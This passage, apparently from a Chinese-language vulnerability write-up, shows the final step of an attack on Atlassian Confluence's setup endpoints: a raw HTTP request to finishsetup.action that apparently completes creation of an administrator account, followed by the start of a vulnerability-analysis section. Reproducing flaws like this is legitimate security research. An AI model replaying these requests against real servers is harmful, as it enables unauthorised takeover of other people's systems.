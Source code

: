 ```plain
Content-Length: 0
Date: Thu, 26 Oct 2023 15:07:12 GMT
Connection: close
```

0x03 send 302 跳转包即可添加成功

```plain
GET /setup/finishsetup.action HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.5938.132 Safari/537.36
Connection: close
Cache-Control: max-age=0
X-Atlassian-Token: no-check
Referer: http://172.16.4.1:8090/setup/setupadministrator.action
```

[![](assets/1699929092-6f0b95bf4581d052252699c978df328b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231110153751-0d923362-7f9c-1.png)

## 漏洞分析

漏洞原因是：
